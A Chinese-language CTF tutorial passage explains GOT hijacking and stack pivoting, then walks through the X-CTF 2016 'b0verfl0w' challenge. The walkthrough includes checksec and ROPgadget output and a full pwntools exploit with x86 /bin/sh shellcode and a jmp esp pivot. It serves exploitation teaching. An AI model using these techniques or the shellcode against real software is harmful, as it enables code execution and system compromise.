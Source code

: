 #  其它栈溢出技巧

# hijack GOT

## 原理

在目前的C程序中，libc中的函数都是通过GOT表来跳转的。此外，在 没有开启RELRO保护的前提下，每个libc的函数对应的GOT表项是可以被修改的，因此，我们可以修改某个libc函数的GOT表内容为另一个libc函数的地址来实现对程序的控制。比如说我们可以修改printf的got表项内容为system函数的got表项内容，从而在执行printf的时候实际执行的是system函数。假设我们将函数A的地址覆盖为函数B的地址，这一攻击技巧可以分为以下步骤

- 确定函数A的GOT表地址。

  - 这一步我们利用的函数A一般在程序中已有，所以可以采用简单的寻找地址的方法来找。

- 确定函数B的内存地址

  - 这一步通常来说，需要我们自己想办法来泄露对应函数B的地址

- 将函数B的内存地址写入到函数A的GOT表地址处。

  - 这一步一般来说需要我们利用函数的漏洞来进行触发。一般利用方法有如下两种

    - 写入函数：write函数。
    - ROP

    ```text
    pop eax; ret; 			# printf@got -> eax
    pop ebx; ret; 			# (addr_offset = system_addr - printf_addr) -> ebx
    add [eax] ebx; ret; 	# [printf@got] = [printf@got] + addr_offset
    ```


# stack privot

## 原理

stack privot，正如它所描述的，该技巧就是劫持栈指针指向攻击者所能控制的内存处。然后再在相应的位置进行ROP。一般来说，我们可能在以下情况需要使用stack privot

- 可以控制的栈溢出的字节数较少，难以构造较长的ROP链
- 开启了PIE保护，栈地址未知，我们可以将栈劫持到已知的区域。
- 其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而利用堆漏洞

此外，利用stack privot有以下几个要求

- 可以控制程序执行流。

- 可以控制sp指针。一般来说，控制栈指针会使用ROP，常见的控制栈指针的gadgets一般是

  ```assembly
  pop rsp/esp
  ```

  当然，还会有一些其它的姿势。比如说libc_csu_init中的gadgets，我们通过偏移就可以得到控制rsp指针。上面的是正常的，下面的是偏移的。

  ```assembly
  gef➤  x/7i 0x000000000040061a
     0x40061a <__libc_csu_init+90>:	pop    rbx
     0x40061b <__libc_csu_init+91>:	pop    rbp
     0x40061c <__libc_csu_init+92>:	pop    r12
     0x40061e <__libc_csu_init+94>:	pop    r13
     0x400620 <__libc_csu_init+96>:	pop    r14
     0x400622 <__libc_csu_init+98>:	pop    r15
     0x400624 <__libc_csu_init+100>:	ret    
  gef➤  x/7i 0x000000000040061d
     0x40061d <__libc_csu_init+93>:	pop    rsp
     0x40061e <__libc_csu_init+94>:	pop    r13
     0x400620 <__libc_csu_init+96>:	pop    r14
     0x400622 <__libc_csu_init+98>:	pop    r15
     0x400624 <__libc_csu_init+100>:	ret
  ```

  此外，还有更加高级的fake frame。


- 存在可以控制内容的内存，一般有如下
  - bss段。由于进程按页分配内存，分配给bss段的内存大小至少一个页(4k,0x1000)大小。然而一般bss段的内容用不了这么多的空间，并且bss段分配的内存页拥有读写权限。
  - heap。但是这个需要我们能够泄露堆地址。

## 示例

### 例1

这里我们以**X-CTF Quals 2016 - b0verfl0w**为例，进行介绍。首先，查看程序的安全保护，如下

```shell
➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ checksec b0verfl0w                 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看出源程序为32位，也没有开启NX保护，下面我们来找一下程序的漏洞

```C
signed int vul()
{
  char s; // [sp+18h] [bp-20h]@1

  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(&s, 50, stdin);
  printf("Hello %s.", &s);
  fflush(stdout);
  return 1;
}
```

可以看出，源程序存在栈溢出漏洞。但是其所能溢出的字节就只有50-0x20-4=14个字节，所以我们很难执行一些比较好的ROP。这里我们就考虑stack privot。由于程序本身并没有开启堆栈保护，所以我们可以在栈上布置shellcode并执行。基本利用思路如下

- 利用栈溢出布置shellcode
- 控制eip指向shellcode处

第一步，还是比较容易地，直接读取即可，但是由于程序本身会开启ASLR保护，所以我们很难直接知道shellcode的地址。但是栈上相对偏移是固定的，所以我们可以利用栈溢出对esp进行操作，使其指向shellcode处，并且直接控制程序跳转至esp处。那下面就是找控制程序跳转到esp处的gadgets了。

```assembly
➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ ROPgadget --binary b0verfl0w --only 'jmp|ret'         
Gadgets information
============================================================
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 3
```

这里我们发现有一个可以直接跳转到esp的gadgets。那么我们可以布置payload如下

```text
shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp
```

那么我们payload中的最后一部分改如何设置esp呢，可以知道

- size(shellcode+padding)=0x20
- size(fake ebp)=0x4
- size(0x08048504)=0x4

所以我们最后一段需要执行的指令就是

```assembly
sub 0x28,esp
jmp esp
```

所以最后的exp如下

```python
from pwn import *
sh = process('./b0verfl0w')

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (
    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```

### 例2-转移堆

待。

# fake frame